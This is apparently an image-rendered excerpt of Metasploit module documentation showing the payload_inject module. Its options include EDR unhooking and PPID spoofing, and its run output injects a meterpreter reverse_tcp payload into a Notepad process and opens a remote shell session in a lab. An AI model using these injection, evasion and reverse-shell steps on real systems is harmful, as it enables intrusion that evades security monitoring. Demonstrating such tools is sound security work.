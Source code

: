 ```
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION      1                yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(windows/local/payload_inject) > run

[*] Started reverse TCP handler on 192.168.135.168:4444
[*] Running module against DESKTOP-D1E425Q
[*] Spawned Notepad process 684
[*] Injecting payload into 684
[*] Preparing 'windows/x64/meterpreter/reverse_tcp' for PID 684
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49676) at 2020-01-22 13:12:07 -0600

meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                     Path
 ---   ----  ----                         ----  -------  ----                     ----
 0     0     [System Process]
 4     0     System
 88    4     Registry
.
.
.
 684   7524  notepad.exe                  x64   1        DESKTOP-D1E425Q\msfuser  C:\Windows\System32\notepad.exe
.
.
.
 7524  3632  revtcpx64.exe                x64   1        DESKTOP-D1E425Q\msfuser  C:\Users\msfuser\Desktop\revtcpx64.exe
 7532  4772  chrome.exe                   x64   1        DESKTOP-D1E425Q\msfuser  C:\Program Files (x86)\Google\Chrome\Application\chrome.exe
 7876  780   WmiPrvSE.exe
 7904  780   WmiPrvSE.exe
 8000  584   svchost.exe
 8036  584   svchost.exe

```